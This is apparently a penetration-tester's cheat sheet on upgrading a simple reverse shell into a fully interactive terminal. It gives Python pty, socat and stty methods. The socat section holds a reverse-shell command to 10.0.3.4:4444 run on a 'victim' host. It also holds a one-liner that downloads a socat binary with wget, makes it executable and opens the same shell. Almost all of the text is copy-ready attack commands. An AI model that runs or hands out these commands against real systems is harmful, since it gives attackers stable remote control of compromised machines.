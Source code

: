 # Method 1: Python pty Module

```
python -c 'import pty; pty.spawn("/bin/bash")'  
```

# Method 2: Using Socat

```
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim // SOCAT INSTALLED:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444

#Victim // SOCAT NOT INSTALLED:
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  
```

# Method 3: Using stty options

```
# In reverse shell

$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali

$ echo $TERM
$ stty -a
$ stty raw -echo
$ fg

# In reverse shell

$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

REF: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
